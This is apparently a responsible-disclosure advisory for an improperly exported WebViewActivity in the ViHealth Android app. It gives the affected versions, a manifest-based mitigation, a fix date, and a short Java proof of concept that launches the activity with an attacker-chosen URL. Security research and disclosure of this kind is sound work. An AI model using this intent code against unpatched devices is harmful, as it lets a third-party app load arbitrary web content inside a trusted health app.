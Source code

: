 

Vendor of Product: Viatom Health                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type: CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/6d9c2530-0122-4ea6-871a-72fd6c1ad08b)




An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


********************************************************************************************************************************
// Create an Intent to start the exported WebViewActivity of the target app
Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);
********************************************************************************************************************************




**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.
![image](https://github.com/actuator/cve/assets/78701239/00fe68ca-6030-4eac-a84b-188c0036b5d8)


Discoverer: Edward Warren
